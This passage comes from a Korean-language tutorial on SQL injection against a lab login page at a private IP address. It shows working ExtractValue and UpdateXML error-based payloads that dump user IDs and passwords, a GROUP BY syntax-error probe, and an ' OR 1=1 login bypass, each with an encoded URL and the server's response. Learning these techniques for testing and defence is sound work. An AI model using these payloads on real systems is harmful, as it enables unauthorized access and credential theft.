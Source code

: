 결과는 다음과 같다.

	Login Failed : XPATH syntax error: ':1'

데이터가 1개이니 LIMIT을 사용할 필요가 없고 데이터를 출력하자.

| data	| value	|
| :---	| :--- 	|
| ID	| ' AND ExtractValue(0,CONCAT(0x3a,(SELECT CONCAT(id,0x3a,pw) FROM user)))#<br>' AND UpdateXML(0,CONCAT(0x3a,(SELECT CONCAT(id,0x3a,pw) FROM user)),0)# |
| PW	| 아무 값(123) |
| URL	| http://192.168.0.58/index.php?userid=%27+AND+ExtractValue%280%2CCONCAT%280x3a%2C%28SELECT+CONCAT%28id%2C0x3a%2Cpw%29+FROM+user%29%29%29%23&password=123<br>http://192.168.0.58/index.php?userid=%27+AND+UpdateXML%280%2CCONCAT%280x3a%2C%28SELECT+CONCAT%28id%2C0x3a%2Cpw%29+FROM+user%29%29%2C0%29%23&password=123 |

결과는 다음과 같다.

	Login Failed : XPATH syntax error: ':admin:helloworld'

# **GROUP BY**

GROUP BY 이후 컬럼 명을 적지 않고, HAVING 이나 ODER BY등을 바로 적으면 syntax에러가 나오며 뒤의 쿼리를 부분 확인할 수 있다.

## **컬럼 이름 부분 확인**

에러 메세지에 칼럼을 출력하도록 유도해보자.

| data	| value	|
| :---	| :--- 	|
| ID	| ' GROUP BY HAVING# |
| PW	| 아무 값(123) |
| URL	| http://192.168.0.58/index.php?userid=%27+GROUP+BY+HAVING%23&password=123 |

결과는 다음과 같다.

	Login Failed : You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'HAVING#' and pw='123'' at line 1

# **논리적 에러**

테이블에서 조건(WHERE 절)을 충족시키는 데이터를 검색한다.

그렇다면 조건을 충족해서 원하는 데이터를 추출하거나 조건 자체를 무력화시켜 모든 데이터를 추출해 볼 수 있다.

조건을 충족하기 위한 데이터는 알 수 없으므로 조건 자체를 무력화 시켜보자.

id는 ''로 데이터가 테이블에 없으므로 거짓이 되지만 1=1은 참이다. 이를 OR연산을 통해 WHERE절은 참이 되어 모든 데이터를 추출해 볼 수 있다.

| data	| value	|
| :---	| :--- 	|
| ID	| ' OR 1=1 |
| PW	| 아무 값(123) |
| URL	| http://192.168.0.58/index.php?userid=%27+OR+1%3D1%23&password=123 |

결과는 다음과 같다.

	Welcome admin

참은 1, 2>1, True과 같이 다양하게 표현해볼 수 있다.
